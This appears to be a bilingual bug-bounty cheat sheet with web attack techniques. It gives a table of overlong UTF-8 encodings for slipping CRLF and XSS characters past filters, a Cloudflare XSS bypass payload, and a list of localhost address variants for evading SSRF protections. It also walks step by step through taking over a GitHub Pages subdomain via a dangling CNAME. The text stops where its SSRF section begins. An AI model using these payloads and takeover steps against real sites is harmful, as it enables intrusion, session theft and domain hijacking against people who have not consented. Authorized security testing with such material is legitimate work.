

## Bug Bounty Tips
#tips #bypass #xss #crlf 
Overlong UTF-8 encoding Attack

2-byte / 3-byte ⇒ original
```
C0%8A / %E0%80%8A ⇒ %0A
%C0%8D / %E0%80%8D ⇒ %0D
%C0%BE / %E0%80%BE ⇒ %3E (>)
%C0%BC / %E0%80%BC ⇒ %3C (<)
%C0%A2 / %E0%80%A2 ⇒ %22 (")
%C0%A7 / %E0%80%A7 ⇒ %27 (')
```
For XSS, CRLF, WAF bypass

https://jsfiddle.net/bw1Lhxnt

## Cloudflare XSS protection bypass
#bypass #xss #Cloudflare
```
"&gt;&lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt;
```

## Bug Bounty Tips
#tips #ssrf
List of localhost addresses for SSRF bypass
```
🔹http://localhost
🔹http://*.localhost
🔹http://127.1
🔹http://127.0.0.0
🔹http://127.0.0.1
🔹http://2130706433
🔹http://0177.1
🔹http://0x7f.1
🔹http://127.000.000.1
🔹http://localtest .me
🔹http://[::1]
🔹http://[::]
```

## Github页面接管—子域名接管
### 原理
1. 目标子域 xxx.xx.com

2. dig +域名 拿到cname地址
xxx.github.io

3. github创建一个一样的仓库名
(原理是子域名cname指向这个空的githun页面可以被任何人创建并接管)

4. custom domain 设为 目标子域xxx.xx.com

### 工具🛠️推荐
1. https://github.com/m4ll0k/takeover
2. https://github.com/antichown/subdomain-takeover

## SSRF漏洞自整理
#ssrf 
1. 漏洞原理